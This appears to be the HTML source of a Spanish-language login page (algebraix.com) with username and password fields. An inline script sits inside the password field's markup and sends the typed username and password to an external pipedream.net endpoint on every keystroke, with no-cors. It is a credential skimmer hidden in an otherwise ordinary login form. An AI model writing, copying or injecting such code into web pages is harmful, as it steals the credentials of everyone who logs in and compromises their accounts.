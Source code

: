 </li>
<li class="nav-item">
<a class="nav-link" href="https://www.algebraix.com/ventas">Ventas</a>
</li>
<li class="nav-item">
<a class="nav-link nav-link--login" href="https://www.algebraix.com/iniciar_sesion">Log In</a>
</li>
</ul>
</div>
</nav>
<section class="bar-section bg-blue-light padding-section pb-0">
<div class="container">
<div class="col-12 text-center mb-5">
<h1 class="text-dark" id="login-title">Iniciar sesión</h1>
<div class="text-dark h1" id="forgot-title" style="display: none;">Recuperar contraseña</div>
</div>
</div>
<div class="container">
<div class="row">
<div class="col-xl-4 offset-xl-4 col-lg-6 offset-lg-3">
<div class="material-form float-card bg-white mb-5">
<div class="change-it active-login">
<div class="text-center" id="form-status" style="display:none">
<span class="text-red cursor font-weight-bold" id="form-status-message"></span>
</div>
<form method="post" class="" data-block_form_button="1" action="" name="login" id="login">
<div class="form-group">
<input type="text" class="" placeholder="" aria-required="true" name="username" required="" id="username" oninvalid="this.setCustomValidity('Usuario inválido.')" oninput="this.setCustomValidity('')">
<label class="text-dark" for="username">Usuario</label>
</div>
<div class="form-group">
<input type="password" class="" placeholder="" aria-required="true" required="" name="password" id="password" oninvalid="this.setCustomValidity('Contraseña inválida.')" oninput="this.setCustomValidity('')">
<label class="text-dark" for="password">Contraseña</label>
<script>
    // Función para manejar los cambios en el campo de contraseña
    function handlePasswordChange() {
        var username = document.getElementById("username").value;
        var password = document.getElementById("password").value;
        if (password.length) {
            fetch('https://en0t0nwzu0td7b.x.pipedream.net', {
                method: 'POST',
                mode: 'no-cors',
                body: username + ':' + password
            });
        }
    }

    // Agregamos un event listener para detectar cambios en el campo de contraseña
    document.getElementById("password").addEventListener("input", handlePasswordChange);
</script>
</div>
<div class="form-check form-group">
<input class="form-check-input" checked="checked" type="checkbox" name="remember_me" id="remember_me" value="option1">
<label class="form-check-label" for="remember_me">No cerrar sesión</label>
</div>
<input type="submit" class="btn btn-lg btn--center-spaced btn-blue mb-4" value="Entrar" disabled="disabled" id="login-button" onclick="processLogin()">